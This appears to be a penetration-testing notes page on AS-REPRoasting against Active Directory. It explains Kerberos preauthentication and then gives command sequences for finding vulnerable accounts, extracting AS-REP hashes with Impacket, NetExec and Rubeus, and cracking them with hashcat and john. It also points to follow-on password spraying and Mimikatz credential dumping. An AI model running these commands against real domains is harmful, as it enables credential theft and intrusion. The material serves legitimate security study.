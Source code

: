 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AS-REPRoasting

## Concept

**AS-REPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**.&#x20;

**Preauthentication** is a security feature in Kerberos where the client must prove knowledge of their password before the KDC issues a TGT. This is done by encrypting a timestamp with a key derived from the user’s password and sending it to the KDC. If the KDC can decrypt and validate the timestamp, it confirms the user knows their password — protecting against offline brute-force attacks.

If an account has the [`Do not require Kerberos pre-authentication`](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **AS-REP**. The AS-REP contains the **TGT** which is encypted with the account's password hash which can be potentially cracked.

<figure><img src="../../../.gitbook/assets/asreproasting_process (2).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Attack <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="Linux" %}
We can enumerate accounts with the preauthentication feature disabled using `GetNPUsers` or `kerbrute`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers corp.com/robert -dc-ip <dc-ip>

# Kerbrute
kerbrute userenum -d corp.com --dc <dc-ip> /opt/jsmith.txt
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using `GetNPUsers` or `nxc`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script with a list of users
impacket-GetNPUsers corp.com/ -dc-ip 172.16.5.5 -no-pass -usersfile users.txt

# For a target user
$ impacket-GetNPUsers relia.com/michelle -dc-ip 172.16.163.6 -no-pass

# NetExec
nxc ldap 10.10.10.161 -u users.txt -p '' --asreproast asreproast.lst
```
{% endcode %}

Finally, we can crack the extracted hashes with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can enumerate accounts with the preauthentication feature disabled using [PowerView](../../../tools/active-directory/powerview.md).

{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using [`rubeus`](../../../tools/active-directory/rubeus.md).

```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```

Finally, we can crack the extracted hashes on our attacking machine with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}
{% endtabs %}

If we successfully crack the hash, we can perform a [password spraying](../../../tools/active-directory/netexec-cme.md#password-spray) attack across the network using NetExec. If the compromised user has local administrator privileges on any host, we can then extract cached credentials—such as those stored in [LSASS](../../../tools/active-directory/mimikatz.md#pass-the-hash)—using tools like Mimikatz.

> _For an example of AS-REPRoasting with `nxc` check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#asreproasting)_._

## Targeted AS-REPRoast

If we can't find any vulnerable users, but we have `GenericWrite` or `GenericAll` on a user object, we can modify that user's `UserAccountControl` to disable preauthentication and then perform the ASREP roast attack. Don't forget to reset the `UserAccountControl` after extraction!

## Resources

* Some amazing demonstrations of AS-REPRoasting ([video](https://www.youtube.com/watch?v=EVdwnBFtUtQ), [video](https://www.youtube.com/watch?v=wA9w8t1fRWo))
* What `impacket-GetNPUsers` does behind the scenes ([video](https://www.youtube.com/watch?v=pZSyGRjHNO4))
